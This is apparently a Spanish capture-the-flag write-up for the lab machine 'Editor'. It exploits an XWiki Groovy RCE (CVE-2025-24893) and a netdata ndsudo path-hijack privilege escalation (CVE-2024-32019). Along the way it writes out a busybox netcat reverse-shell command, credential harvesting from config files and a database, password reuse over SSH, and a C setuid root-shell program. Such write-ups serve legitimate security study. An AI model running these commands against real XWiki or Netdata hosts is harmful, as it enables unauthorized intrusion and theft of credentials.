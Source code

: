 # Editor

**Dificultad:** Easy  
**SO:** Linux  

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP

Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.80
nmap -sS -p- --min-rate 5000 10.10.11.80 -oG allPortsEditor
nmap -sCV -p 22,80 -n -nP 10.10.11.80 -oA sondeoEditor
```

![Ping](images/editor_ping_inicial.PNG)
![Nmap puertos](images/editor_all_ports.PNG)
![Nmap servicios](images/editor_sondeo_1.PNG)
![Nmap servicios](images/editor_sondeo_2.PNG)

#### Actualizar /etc/hosts (actúa como dns local)

Asociamos el nombre del host (editor.htb) con su dirección IP (10.10.11.80).

```bash
nano /etc/hosts
```

![/etc/hosts](images/editor_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.

![Wappalyzer](images/editor_wappalyzer.PNG)

#### Enumeración de subdirectorios con Feroxbuster

Se ven redirecciones a `http://editor.htb:8080/xwiki/bin/login/XWiki/XWikiLogin`.

```bash
feroxbuster -u http://editor.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -C 404
```

![Feroxbuster](images/editor_feroxbuster.PNG)

#### XWiki Login

En la página de `login` de XWiki se observa la `versión XWiki Debian 15.10.8` (tambien se veía en la página principal pero había que scrollear pabajo o7).

![XWiki Login](images/editor_xwiki_version.PNG)

### CVE-2025-24893 - RCE en XWiki

Vulnerabilidad de ejecución remota de código (RCE) en XWiki < 15.10.11, 16.4.1, 16.5.0RC1.

XWiki incluye una macro llamada `SolrSearch` (definida en Main.SolrSearchMacros) que permite la búsqueda de texto a través del motor Solr integrado. La vulnerabilidad se debe a la forma en que esta `macro evalúa` los parámetros de búsqueda en `Groovy`, al `no sanear ni restringir la entrada` maliciosa.

Un atacante puede `inyectar expresiones de Groovy` en la search query mediante una request GET y hacer que el `sistema evalúe codigo arbitrario` dentro del contexto del `servidor XWiki`.

En el endpoint vulnerable GET /xwiki/bin/view/Main/SolrSearch?search= un atacante puede inyectar código Groovy, provocando una `RCE` directa si la expresión Groovy incluye comandos a nivel de sistema.

[CVE-2025-24893](https://www.offsec.com/blog/cve-2025-24893/)

[dollarboysushil PoC](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC/blob/main/CVE-2025-24893-dbs.py)

#### Reverse shell

Ejecutamos el exploit y obtenemos una `reverse shell` como `xwiki`.

```bash
python exploit.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.16.22 1337 -e /bin/bash'
```

![Reverse shell](images/editor_reverse_shell.PNG)

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

En el `fichero /etc/xwiki/hibernate.cfg.xml` se encuentra la configuración de la base de datos de xwiki junto con las credenciales `xwiki:theEd1t0rTeam99`.

![Fichero hibernate.cfg.xml](images/editor_hibernate_cfg_xml.PNG)

#### Enumerando DB

Enumerando la base de datos, se encuentra el usuario `neal` con su password, `hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153`.

```bash
mysql -u xwiki -p 'theEd1t0rTeam99' -h localhost xwiki
```

```sql
SHOW TABLES;
DESCRIBE xwikistrings;
DESCRIBE xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects WHERE XWO_CLASSNAME = 'XWiki.XWikiUsers';
SELECT XWS_NAME, XWS_VALUE FROM xwikistrings WHERE XWS_ID = -5552625943482576562 AND XWS_NAME = 'password';
```

![SHOW TABLES](images/editor_xwiki_DB_show_tables.PNG)
![DESCRIBE](images/editor_xwiki_DB_describe.PNG)
![SELECTS](images/editor_xwiki_DB_select.PNG)

Según XWiki la `estructura de la password` es `Algoritmo:Salt:Hash`.

[Default password en xwiki](https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-p6cp-6r35-32mh)

#### Hashcat

Al lanzar `hashcat` en modo `1710` ( `SHA512($salt.$pass)` ) para crackearlo por `diccionario` no pillé nada, entendiendo que por aquí no iba la cosa.

![Hashcat 1](images/editor_hashcat_1.PNG)
![Hashcat 2](images/editor_hashcat_2.PNG)

#### Recogiendo cuerda 

En el /home se puede ver que tenemos que `escalar a oliver`, por lo que intenté conectarme por ssh con la contraseña encontrada en el hibernate.cfg.xml (`theEd1t0rTeam99`) con éxito.

![Listando /home](images/editor_recogida_de_cuerda.PNG)

#### SSH

Nos conectamos por SSH con el usuario oliver.

```bash
ssh oliver@10.10.11.68
```

![SSH 1](images/editor_ssh_oliver_1.PNG)
![SSH 2](images/editor_ssh_oliver_2.PNG)

#### Escalada a root

Se observa que oliver puede ejecutar `ndsudo` con permisos de root (binario con SUID).

![Binarios con SUID](images/editor_find_suid.PNG)

#### CVE-2024-32019 - Ndsudo local privilege escalation via untrusted search path

Se puede realizar la escalada `creando un ejecutable` cuyo `nombre` esté en la `lista de comandos de ndsudo`, después hay que `exportar el path` y lanzar el ejecutable con ndsudo.

Lo primero es ver que comandos se pueden ejecutar con ndsudo:

![ndsudo --help](images/editor_ndsudo_help.PNG)
![ndsudo nvme-list](images/editor_ndsudo_nvme_list.PNG)

Es decir ambos `ejecutan el binario nvme` al lanzarlos y meten los `propios parámetros` del `comando` en cuestión.

```c
struct command {
    const char *name;
    const char *params;
    const char *search[MAX_SEARCH];
} allowed_commands[] = {
    {
        .name = "nvme-list",
        .params = "list --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    },
    {
        .name = "nvme-smart-log",
        .params = "smart-log {{device}} --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    }
};
```

[Estructura de comandos ndsudo](https://github.com/netdata/netdata/blob/master/src/collectors/utils/ndsudo.c)

#### Creando el ejecutable nvme

Con un simple programa en C podemos `forzar` a que use el `user (setuid) y group (setgid)` de `root` y lanzar lo que queramos.

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 0;
}
```

![nvme exploit](images/editor_nvme_exploit.PNG)

### Limpieza del entorno

Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/editor_limpieza_entorno.PNG)
